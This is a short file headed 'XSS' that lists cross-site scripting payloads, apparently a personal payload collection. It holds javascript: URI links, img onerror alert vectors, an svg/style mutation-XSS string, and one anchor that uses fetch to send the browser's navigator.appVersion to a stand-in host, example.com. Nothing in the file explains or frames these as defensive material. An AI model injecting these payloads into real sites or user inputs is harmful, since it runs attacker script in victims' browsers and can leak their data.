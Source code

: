 # XSS


#data:text/html,<a href="javascript:'<img src=e onerror=alert()>';">click</a>

#<a href='fetch("//example.com?"+navigator.appVersion)'>test</a>

#<a href="javascript:{alert(00)confirm(00)}">POC</a>


<xml:namespace prefix="t">
<svg><style>&lt;img/src=x onerror=alert(document.domain)// </b>
